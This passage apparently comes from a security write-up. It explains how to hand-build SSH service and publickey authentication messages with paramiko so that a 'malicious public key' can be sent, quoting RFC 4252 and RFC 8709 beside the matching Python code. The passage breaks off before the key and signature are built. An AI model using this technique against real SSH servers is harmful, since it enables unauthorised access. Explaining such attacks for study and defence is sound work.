 ```
byte      SSH_MSG_SERVICE_REQUEST
string    service name
```

and the corresponding Python code looks like this:

{% highlight python %}
t.lock.acquire()
m = paramiko.Message()
m.add_byte(cMSG_SERVICE_REQUEST)
m.add_string("ssh-userauth")
t._send_message(m)
{% endhighlight %}

Next, we will focus on sending the `SSH_MSG_USERAUTH_REQUEST` containing our malicious public key. These messages are specific to the authentication method that you want to use (in this case `publickey`) and are defined in [RFC 4252](https://tools.ietf.org/html/rfc4252#section-7). Once again, you'll notice that the spec for these messages is pretty similar to the code that we're writing in Python. The RFC defines the message structure as:

```
byte      SSH_MSG_USERAUTH_REQUEST
string    user name
string    service name
string    "publickey"
boolean   TRUE
string    public key algorithm name
string    public key to be used for authentication
string    signature
```

and our Python code looks like this:

{% highlight python %}
m = paramiko.Message()
m.add_byte(cMSG_USERAUTH_REQUEST)
m.add_string(user)
m.add_string("ssh-connection")
m.add_string('publickey')
m.add_boolean(True)
m.add_string('ssh-ed25519')
{% endhighlight %}

The astute reader will note that we are missing the public key itself and the signature from our message that we are constructing. That is the next thing we are going to tackle.

# Sending the malicious key

Once again, some quick Googling tells us that the SSH public key format for ed25519 keys is defined by [RFC 8709](https://www.ietf.org/rfc/rfc8709.html#section-6) and has the following format:

```
string  "ssh-ed25519"
string  key
```
